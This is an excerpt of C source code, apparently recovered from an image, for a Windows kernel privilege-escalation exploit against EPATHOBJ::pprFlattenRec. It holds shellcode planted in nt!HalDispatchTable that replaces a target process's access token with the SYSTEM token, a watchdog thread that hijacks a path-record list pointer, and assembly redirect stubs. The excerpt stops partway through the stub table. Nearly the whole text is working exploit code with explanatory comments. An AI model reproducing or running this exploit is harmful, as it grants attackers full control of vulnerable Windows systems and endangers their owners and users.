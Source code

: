 // This routine is injected into nt!HalDispatchTable by EPATHOBJ::pprFlattenRec.
ULONG __stdcall ShellCode(DWORD Arg1, DWORD Arg2, DWORD Arg3, DWORD Arg4)
{
    PVOID  TargetProcess;

    // Record that the exploit completed.
    Finished = 1;

    // Fix the corrupted HalDispatchTable,
    HalDispatchTable[1] = HalQuerySystemInformation;

    // Find the EPROCESS structure for the process I want to escalate
    if (PsLookupProcessByProcessId(TargetPid, &amp;TargetProcess) == STATUS_SUCCESS) {
        PACCESS_TOKEN SystemToken;
        PACCESS_TOKEN TargetToken;

        // Find the Token object for my target process, and the SYSTEM process.
        TargetToken = (PACCESS_TOKEN) PsReferencePrimaryToken(TargetProcess);
        SystemToken = (PACCESS_TOKEN) PsReferencePrimaryToken(*PsInitialSystemProcess);

        // Find the token in the target process, and replace with the system token.
        FindAndReplaceMember((PDWORD) TargetProcess,
                             (DWORD)  TargetToken,
                             (DWORD)  SystemToken,
                             0x200);
    }

    return 0;
}

DWORD WINAPI WatchdogThread(LPVOID Parameter)
{
    // Here we wait for the main thread to get stuck inside FlattenPath().
    WaitForSingleObject(Mutex, CYCLE_TIMEOUT);

    // It looks like we've taken control of the list, and the main thread
    // is spinning in EPATHOBJ::bFlatten. We can't continue because
    // EPATHOBJ::pprFlattenRec exit's immediately if newpathrec() fails.

    // So first, we clean up and make sure it can allocate memory.
    while (NumRegion) DeleteObject(Regions[--NumRegion]);

    // Now we switch out the Next pointer for our exploit record. As soon
    // as this completes, the main thread will stop spinning and continue
    // into EPATHOBJ::pprFlattenRec.
    InterlockedExchangePointer(&amp;PathRecord-&gt;next,
                               &amp;ExploitRecord);
    return 0;
}

// I use this routine to generate a table of acceptable stub addresses. The
// 0x40 offset is the location of the PULONG parameter to
// nt!NtQueryIntervalProfile. Credit to progmboy for coming up with this clever
// trick.
VOID __declspec(naked) HalDispatchRedirect(VOID)
{
    __asm inc eax
    __asm jmp dword ptr [ebp+0x40]; //  0
    __asm inc ecx
    __asm jmp dword ptr [ebp+0x40]; //  1
    __asm inc edx
    __asm jmp dword ptr [ebp+0x40]; //  2
    __asm inc ebx
    __asm jmp dword ptr [ebp+0x40]; //  3
    __asm inc esi
    __asm jmp dword ptr [ebp+0x40]; //  4
    __asm inc edi
    __asm jmp dword ptr [ebp+0x40]; //  5